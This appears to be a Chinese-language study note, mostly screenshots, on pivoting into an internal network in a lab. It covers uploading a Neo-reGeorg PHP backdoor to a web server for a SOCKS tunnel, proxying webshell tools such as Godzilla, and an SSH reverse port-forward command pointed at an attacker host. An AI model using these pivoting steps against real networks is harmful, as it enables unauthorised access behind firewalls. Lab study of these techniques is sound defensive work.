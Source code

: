 ![1732618408454](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942065.png)

![1732619300723](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942066.png)

  HTTP隧道搭建内网穿透    Neo-reGeorg-5.2.0工具使用说明，现在是用工具脚本创建一个socks代理。

![1732617986195](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942067.png)

这里将刚才用工具生成的php后门上传到可以通讯的web服务器192.168.139.222  上：

![1732618278013](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942068.png)

socks代理：

![1732618686942](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942069.png)

配置代理------Proxifier

![1732618847723](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942070.png)

然后就访问成功：

![1732619184404](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942071.png)

隧道实现成功

  哥斯拉，冰鞋；冰鞋：本机用隧道技术实现将目标端口（sql）80转发到本地端口2222上，先在本地上线到可以通讯的web机上，然后在信息收集到sql机，利用内网穿透，隧道技术实现

冰鞋复现失败，虚拟机问题：

![1732624362316](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942072.png)

   哥斯拉

端口映射，本地访问远程端口数据 主动转发出来  建立socks代理，连接socks对内网穿透

这里关闭刚才的socks和Proxifier代理：

![1732624587566](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942073.png)

然后哥斯拉连接上web，使用httpProxy：

##### ![1732624748652](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942074.png)

配置代理，访问192.168.2.22   成功

![1732624869350](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942075.png)

  上线c2

http一般不用来上线，http能上线的话，那么正反向也可以用来上线，一般都会用正反向来实现上线。http隧道一般用来信息收集，主要还是因为http在tcp层。

   ssh

​    首先是被控机跟目标机之间能通讯、让被控机(kali2)将内网机(sql)的80端口流量转发到攻击机(kali)上的1234端口，这里就是攻击机访问自己的1234端口，就等于被控机访问内网机的80端口。不过这里需要配置好环境，在腾讯文档中                                                                                           		ssh -CfNg -R 攻击机端口:内网目标机IP:80 root@攻击机ip                     
